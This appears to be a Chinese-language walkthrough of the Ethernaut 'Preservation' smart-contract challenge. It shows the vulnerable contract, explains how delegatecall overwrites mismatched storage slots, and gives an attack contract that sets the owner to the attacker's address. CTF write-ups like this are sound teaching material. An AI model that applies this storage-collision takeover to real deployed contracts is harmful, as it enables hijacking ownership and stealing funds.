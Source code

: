 #   Level 16 Preservation
實例地址：`0x8ee8f09767AD7995A250F138c91b982772198F78`

##  題目說明
此智慧合約利用一個函式庫來儲存兩個不同時區的兩個不同時間。 建構函數會為每個要儲存的時間創建兩個庫實例。 本關卡的目標是獲得該合約的所有權。

  可能會有用的資訊

*   查閱 Solidity 文檔中的有關低階函數 delegatecall 的信息，包括其工作原理、如何用於委託操作到鏈上庫以及它對執行範圍的影響。
*   理解 delegatecall 保持上下文意味著什麼。
*   理解儲存變數如何儲存和存取。
*   理解不同資料類型之間轉換的工作原理。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

##  POC
這合約想要使用 `delegatecall` 去更改自身的 `storedTime` ，但是 `delegatecall` 更改的變數擺放位置需要是一樣的才可以做更改到同一個變數，所以我們今天觸發 `setFirstTime()`，更改到的內容是 `timeZone1Library`，所以利用這個漏洞，我先撰寫好一個攻擊合約自訂 `setTime` 函式，將宣告變數排列於原合約相同，再重新呼叫 `setFirstTime()` 可以將 owner 改為自己地址。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    
    constructor(){
    }

    function setTime(uint256 _timeStamp) public {
        owner = address(uint160(_timeStamp));
    }
    
}
```